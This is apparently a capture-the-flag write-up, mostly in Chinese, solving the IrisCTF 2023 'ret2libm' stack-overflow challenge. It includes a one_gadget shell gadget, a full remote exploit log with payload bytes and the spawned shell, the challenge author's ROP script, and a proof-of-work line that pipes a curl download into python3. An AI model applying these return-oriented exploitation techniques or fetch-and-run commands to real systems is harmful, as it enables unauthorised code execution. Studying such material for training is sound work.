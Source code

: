 # 题目描述

I need to make a pwn? Let's go with that standard warmup rop thing... what was it... ret2libm?

**Hint!** The challenge server may be acting up. If your solution works locally and on the docker but not on remote, please open a ticket!

# Writeup

首先将程序和提供的动态库链接在一起，使用如下命令：

```sh
cp chal chal_patched
patchelf --add-needed libc-2.27.so chal_patched
patchelf --add-needed libm-2.27.so chal_patched
```

然后本地gdb调试chal_patched，可以发现栈溢出到返回指令的偏移量为16；此外可以通过vmmap可以查看libc的地址，然后程序会打印fabs的地址，我们可以算出fabs地址减去libc地址的偏移量，有了这个偏移量就可以在运行时算出动态变化的libc基地址。

然后使用`one_gadget ./libc-2.27.so`找出执行shell的gadget，如下：

```
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
```

gdb调试发现main函数结束时这些条件都是满足的，因此可以利用，具体参考脚本[solve.py](solution/solve.py)，远程服务器的输出为：

```
[DEBUG] Received 0xca bytes:
    b'== proof-of-work: enabled ==\n'
    b'please solve a pow first\n'
    b'You can run the solver with:\n'
    b'    python3 <(curl -sSL https://goo.gle/kctf-pow) solve s.ADQ6.AAB/sgG89/DZNgpeagnvNw6S\n'
    b'===================\n'
    b'\n'
    b'Solution? '
Solution: 

[DEBUG] Sent 0xdb bytes:
    b's.AAAkgXoE7EnKZXiLxbSi9OtD0HNPA4RBuSbQQPqvnHkCt9BDoEDQGcTS/eY/LDwM7uHgLhwKrBtdrchKK3htTApNX6Gq+AX0IZAB4QaRXGq9idDScseGokYNuZnBFzFUjvXdEHTjYyxbFB3m26V9PfpEAXULERY2kaMeaRfoS2m9Er/tNmHpxaT3uDuo93lk++flhAqrxUBhBHHu7POwnYAt\n'
continue
[DEBUG] Received 0x3b bytes:
    b'Correct\n'
    b'Check out my pecs: 0x7fdba2f28cf0\n'
    b'How about yours? '
[DEBUG] Sent 0x19 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    00000010  a5 52 b5 a2  db 7f 00 00  0a                        │·R··│····│·│
    00000019
[*] Switching to interactive mode
[DEBUG] Received 0x1c bytes:
    b"Let's see how they stack up."
Let's see how they stack up.$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x15 bytes:
    b'Makefile\n'
    b'chal\n'
    b'chal.c\n'
Makefile
chal
chal.c
$ cat /flag
[DEBUG] Sent 0xa bytes:
    b'cat /flag\n'
[DEBUG] Received 0x20 bytes:
    b'irisctf{oh_its_ret2libc_anyway}\n'
```

***

题目作者的解法和这里介绍的不同，如下：

```python
leak = r.recvuntil(b"\nHow").decode().split("\n")[-2].split(" ")[-1]
leak = eval(leak) - 0x31cf0
print(hex(leak)) # libm base

def p64(i):
    return i.to_bytes(8, byteorder="little")

ADDRAXRDXJUMPRAX = 0x000000000000f39f + leak
POPRAX_RET = 0x000000000001a3c8 + leak
OFFSET = 0x4f2a5 - 0x3ed8c0
OFFSET = OFFSET & (2**64 - 1)

rop = b"aaaabbbbccccdddd"
rop += p64(POPRAX_RET)
rop += p64(OFFSET)
rop += p64(ADDRAXRDXJUMPRAX)

r.sendline(rop)
r.sendline(b"cat /flag")
```

其中OFFSET的含义为，在main函数结束时，RDX的寄存器的值减去0x3ed8c0为libc的基地址，然后加上shell gadget的偏移量0x4f2a5，然后跳到gadget的地址执行指令，这里无法理解的为什么rdx - 0x3ed8c0是libc的基地址，可能要看libc的源码才能知道为什么。

参考链接：

- https://github.com/Seraphin-/ctf/blob/master/irisctf2023/ret2libm.md
- https://thesavageteddy.github.io/posts/ret2libm-iris2023/
- https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc
- https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/exploiting-calling-conventions#64-bit